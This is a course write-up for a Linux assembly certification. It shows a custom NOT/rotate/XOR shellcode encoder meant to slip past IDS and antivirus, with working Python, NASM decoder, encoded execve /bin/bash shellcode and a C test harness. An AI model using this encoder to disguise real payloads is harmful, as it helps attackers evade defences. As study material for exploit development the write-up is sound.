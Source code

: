 # Assignment 4

* Create a custom encoding scheme like the "Insertion Encoder" we showed you
* PoC with using the execve-stack as the shellcode to encode with your schema and execute

## Execution

Even if null bytes or other kind of bad chars have been removed from the shellcode, its execution, in several scenarios, might be prevented due to IPS/IDS or antivirus. Thus, it comes the need to encode the shellcode with the goal of minimizing the surface fingerprintable. An encoder happens in two phase:

1. Encoding the shellcode using a schema defined. This can be done using any programming language;
2. Assembly routine that decodes the shellcode.

Let's dive into these two stages.

Firstly, I decided to use the following encoding schema:

* Execute a NOT on each shellcode byte;
* Execute a right bit ROTATE by a predefined number on each shellcode byte;
* Execute a XOR with a predefined byte on each shellcode byte.

Obviously, all these operations are invertible. Below, my implementation in Python using the *execve* payload.

```python
#!/usr/bin/python

# Author  : Alessio Parzian
# Filename: ShellEncoder.py
# Usage   : python ShellEncoder.py

# This script is an helper to encode any shellcode using a custom encoder

# Exec bin/sh shellcode
shellcode = "\xeb\x1a\x5e\x31\xdb\x88\x5e\x09\x89\x76\x0a\x89\x5e\x0e\x8d\x1e\x8d\x4e\x0a\x8d\x56\x0e\x31\xc0\xb0\x0b\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x62\x61\x73\x68\x41\x42\x42\x42\x42\x43\x43\x43\x43";

shellcode = bytearray(shellcode)

xor_fixed = 0xbb 
shift_fixed = 0x02

# This custom encoder makes use of three techniques in a chain
#	NOT encoding
#	ROTATE encoding
#	XOR encoding

for idx,opcode in enumerate(shellcode):
	# Apply NOT encoding
	opcode = ~opcode
	opcode = opcode & 0xff # Mask the result with the goal of preserving only the byte modified
	# Apply Rotation right
	opcode_shifted = opcode >> shift_fixed
	opcode_rotl = (opcode << (8 - shift_fixed)) & 0xff 
	opcode = opcode_shifted | opcode_rotl
	# Apply fixed xor
	opcode = (opcode ^ xor_fixed) & 0xff
	# Save encoded opcode
	shellcode[idx] = opcode

print '==========================='
print 'NOT + ROTATE + XOR'
print 'Shellcode length: {0}'.format(len(shellcode))
print '==========================='
shellcode_final = ""
shellcode_final_array = ""
for opcode in shellcode:
	shellcode_final += "\\x"+"{:02x}".format(opcode)
	shellcode_final_array += "0x"+"{:02x}".format(opcode)+","
shellcode_final_array = shellcode_final_array[:-1]
print shellcode_final
print shellcode_final_array
print '==========================='
```

The output of the above script is the following:

```
===========================
NOT + ROTATE + XOR
Shellcode length: 51
===========================
\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94
0xbe,0xc2,0xd3,0x08,0xb2,0x66,0xd3,0x06,0x26,0xd9,0xc6,0x26,0xd3,0xc7,0x27,0xc3,0x27,0xd7,0xc6,0x27,0xd1,0xc7,0x08,0x74,0x68,0x86,0x37,0x64,0x7e,0x3c,0xbb,0xbb,0xbb,0x8f,0xdc,0x1e,0xdf,0x8f,0xdc,0x1c,0x98,0x5e,0x14,0xd4,0xd4,0xd4,0xd4,0x94,0x94,0x94,0x94
===========================
```

No null bytes present, great! Be sure, in case you change payload that no null bytes are there. In case there are, change the variable *xor_fixed* with a different byte or change the rotation value in the variable *shift_fixed*. Change the related decoding routing accordingly.

Now, let's move to the second part, the decoding routine in Assembly! The encoded shell has to be placed in the EncodedShell label.

```
; Author :  Alessio Parzian
; Filename: shell_encoded.asm

; compile with:
; 	nasm -f elf32 shellcode_encoded.asm
;	ld -o shellcode_encoded shellcode_encoded.o
; extract shellcode with:
; 	objdump -d shellcode_encoded | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'

global _start

section .text

	_start:
		jmp short call_shellcode
	
	decoder:
		pop esi
		xor ebx, ebx
		xor ecx, ecx
		xor edx, edx
		mov cl, 0x32 ; change the value based on the length of the encoded shellcode 
	
	decode:
		mov bl, byte [esi]
		xor bl, 0xbb
		and bl, 0xff
		mov dl, byte [esi]
		xor dl, 0xbb
		and dl, 0xff
		rol bl, 0x02
		and bl, 0xff
		ror dl, 0x06
		and bl, dl
		not bl
		mov byte [esi], bl
		inc esi
		loop decode
		; call the decoded shell
		jmp short EncodedShell

	call_shellcode:
		call decoder
		EncodedShell: db 0xbe,0xc2,0xd3,0x08,0xb2,0x66,0xd3,0x06,0x26,0xd9,0xc6,0x26,0xd3,0xc7,0x27,0xc3,0x27,0xd7,0xc6,0x27,0xd1,0xc7,0x08,0x74,0x68,0x86,0x37,0x64,0x7e,0x3c,0xbb,0xbb,0xbb,0x8f,0xdc,0x1e,0xdf,0x8f,0xdc,0x1c,0x98,0x5e,0x14,0xd4,0xd4,0xd4,0xd4,0x94,0x94,0x94,0x94

```

The decoding phase simply executes the inverse operations of the encoding schema. The JMP/CALL/POP technique has been used to gather the address of the encoded shellcode.
Once compiled the shellcode is the following.

```
\xeb\x2d\x5e\x31\xdb\x31\xc9\x31\xd2\xb1\x32\x8a\x1e\x80\xf3\xbb\x80\xe3\xff\x8a\x16\x80\xf2\xbb\x80\xe2\xff\xc0\xc3\x02\x80\xe3\xff\xc0\xca\x06\x20\xd3\xf6\xd3\x88\x1e\x46\xe2\xde\xeb\x05\xe8\xce\xff\xff\xff\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94
```

The resulting shellcode does not contains null bytes, great! But, note that the size is doubled, from 51 bytes to 103 bytes. In case you need a smaller size, an operation of the encoding schema might be taken away.

For testing the shellcode generated the following helper program was used.

```c
/*
// Author: Alessio Parzian
// Filename: test_shell.c
//
// Test your shellcode. Replace shellcode variable value with your own shell, compile and execute.
// Compile with:
// 	gcc $file_name -fno-stack-protector -z execstack -o $out_name
*/

#include <stdio.h>

// Use an array instead of a pointer because compiler does consider the array as mutable (this implies you can modify it at runtime). For pointers to literal this is not the case unless specific flag is passed to the compiler. This is very important when modifing at runtime the shellcode.
unsigned char shellcode[] = "\xeb\x2d\x5e\x31\xdb\x31\xc9\x31\xd2\xb1\x32\x8a\x1e\x80\xf3\xbb\x80\xe3\xff\x8a\x16\x80\xf2\xbb\x80\xe2\xff\xc0\xc3\x02\x80\xe3\xff\xc0\xca\x06\x20\xd3\xf6\xd3\x88\x1e\x46\xe2\xde\xeb\x05\xe8\xce\xff\xff\xff\xbe\xc2\xd3\x08\xb2\x66\xd3\x06\x26\xd9\xc6\x26\xd3\xc7\x27\xc3\x27\xd7\xc6\x27\xd1\xc7\x08\x74\x68\x86\x37\x64\x7e\x3c\xbb\xbb\xbb\x8f\xdc\x1e\xdf\x8f\xdc\x1c\x98\x5e\x14\xd4\xd4\xd4\xd4\x94\x94\x94\x94";

int main (){
	void (*shell)(void) = (void(*)(void)) shellcode;
	shell();
}
```

Well, this concludes assignment 4!

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*